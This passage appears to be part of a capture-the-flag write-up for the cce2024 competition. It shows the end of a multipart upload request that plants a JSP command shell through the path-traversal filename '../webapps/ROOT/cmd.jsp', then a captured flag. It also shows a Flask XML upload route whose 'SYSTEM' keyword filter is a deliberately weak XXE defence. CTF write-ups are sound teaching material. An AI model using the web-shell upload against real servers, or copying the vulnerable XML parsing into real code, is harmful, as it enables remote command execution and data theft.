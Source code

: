 ```
		out.println(disr); 
		disr = br.readLine(); 
	}
}
%>
</pre>
        </body>

        </html>
------WebKitFormBoundarydNmhuHKBYPqVrS4m
Content-Disposition: form-data; name="uploadFileName";

../webapps/ROOT/cmd.jsp
------WebKitFormBoundarydNmhuHKBYPqVrS4m--
```


### Flag
cce2024{3a9d8c789f493f9c66d2f82f8208d9dcc8a1cc5a47ef222e71dd4da6fe05f8d23397f85403779479627b675d6b6f434d9bcc}           
            
<a id="internal-inspection">internal inspection</a>                

# internal inspection     
     
```python
@app.route('/download', methods=['POST'])
def download():
    xml_file = request.files['file']
    xml_data = xml_file.read()
    xml_data = xml_data.decode('UTF-8')
    xml_data = xml_data.replace("SYSTEM", "system")
    xml_data = xml_data.encode('UTF-8')
    
    parser = etree.XMLParser(encoding='UTF-8')
    try:
        root = etree.fromstring(xml_data, parser=parser)
    except:
        root = etree.fromstring("<name>fail</name>", parser=parser)
    
    data = []
    try:
        for member in root.findall('member'):
            name = member.find('name').text
            address = member.find('address').text
            company = member.find('company').text
            job = member.find('job').text
            email = member.find('email').text
            username = member.find('username').text
            data.append([name, address, company, job, email, username])
        
        df = pd.DataFrame(data, columns=['Name', 'Address', 'Company', 'Job', 'Email', 'Username'])
        
        output = io.BytesIO()
        df.to_excel(output, index=False, engine='openpyxl')
        output.seek(0)
    except:
        output = str()
    
    return send_file(output, as_attachment=True, mimetype='application/vnd.openxmlformats-officedocument.spreadsheetml.sheet', download_name='members.xlsx')
```
     